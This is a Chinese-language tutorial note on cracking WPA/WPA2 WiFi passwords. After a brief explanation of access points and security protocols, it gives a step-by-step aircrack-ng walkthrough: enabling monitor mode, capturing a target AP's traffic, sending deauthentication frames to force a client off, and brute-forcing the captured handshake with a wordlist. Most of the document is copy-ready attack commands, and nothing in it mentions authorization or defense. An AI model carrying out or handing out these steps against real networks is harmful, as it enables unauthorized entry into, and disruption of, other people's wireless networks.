

破解WiFi
原理
- 监听AP（路由器）
- 强制断开连接
- 抓客户端连接时的报文
- 用密码本破解报文
知识点
- AP:无线接入点（一般为路由器）
- SSID：AP的名称
ESSID：拓展AP
BSSID：AP的唯一标识符（站点的MAC地址）
- 无线安全协议
- WEP：最初的安全协议，十分不安全
- WPA：较为安全
- WPA2-PSK：更加安全，初企业外广泛使用
- WiFi模式
- managed：可加入AP
- master：可加入或充当AP
- monitor：破解时使用，可监听可访问所有经过你的无线流量
常用命令
- ifconfig：查看网卡信息（-a，可查看所有网卡）
- iwconfig：查看无线网卡信息
- iwlist “网卡（wlan0）” scan：扫描可连接的AP
- nmcli：图形化网络管理器，（先“systemctl start NetworkManager”开启网络管理器）
- iw list：“查看无线网卡支持的模式”
“aireplay-ng -9 wlan0”命令查看无线网卡是否支持数据包注入功能
工具：
1.aircrack-ng（kali已自带）
2.一块能支持monitor模式和无限注入的网卡
实际操作
- 获取目标AP的MAC地址
客户端的MAC地址（BSSID）
以及AP正在运行的信道
方法：“iwlist wlan0 scanning”或“nmcli dev wifi”可获得SSID，BSSID，信道
ESSID
- 用“airmon-ng start wlan0”命令开启无线网卡的monitor模式（此时网卡会被重命名）
- 用“airodump-ng wlan0mon”可获取广播AP和附近客户端的关键数据
修饰一下“airodump-ng -c 6（信道） --bssid 88：c3：97：c2：F1：4E wlan0mon”可获得指定AP的指定信道的关键信息（可以获取客户端的MAC地址）
再修饰一下“airodump-ng -c 6 --bssid 88：c3：97：c2：F1：4E -w Hacker wlan0mon”能保存指定AP的报文
- 用“aireplay-ng --deauth 100 -a 88：c3：97：c2：F1：4E -c A0:A3:E3:44:7C:E5 wlan0mon”命令断开客户机与AP的链接
- 用airedump命令抓取报文（打开另一个终端，保持上一个终端抓包开启）
- 使用字典破解报文
用“cat >>password.lst 《EOF”建立字典文件
aircrack-ng -w wordlist.dic（字典文件） -b 88：c3：97：c2：F1：4E（AP的MAC地址） Hacker.cap
- 字典中要有可能的密码
破解成功
